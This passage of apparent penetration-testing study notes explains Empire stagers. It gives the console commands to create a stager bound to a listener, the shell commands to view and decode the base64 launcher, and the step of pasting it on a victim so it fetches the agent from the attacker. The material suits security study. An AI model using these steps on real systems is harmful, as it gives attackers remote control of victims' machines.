

2. Stagers
A
stager is the part of the payload that establish a communication channel between the attacker and the victim
Stagers on Empire1. Create a Stager
(Empire)> usestager #SPACE and double TAB
(Empire)> usestager [stager]
(Empire)> info
(Empire)> set Listener [listener] #name that we have give to a listener that we have created
(Empire)> execute
root@kali:/# cat /tmp/launcher.bat
root@kali:/# echo [base64_encoded_text] | base64 --decode #if we want to know which is the code encoded
2. Execute the Stager on the Target
◇ We can upload(how we have seen in this chapter) the
stager on the victim, it is a base64-encoded PowerShell command string. This part of the payload will connect to the listener running on the attacker and fetch the rest of the Empire agent code.
◇ Copy and paste the code on the target machine
root@kali:/# cat /tmp/launcher.bat
root@kali:/# echo [base64_encoded_text] | base64 --decode #if we want to know which is the code encoded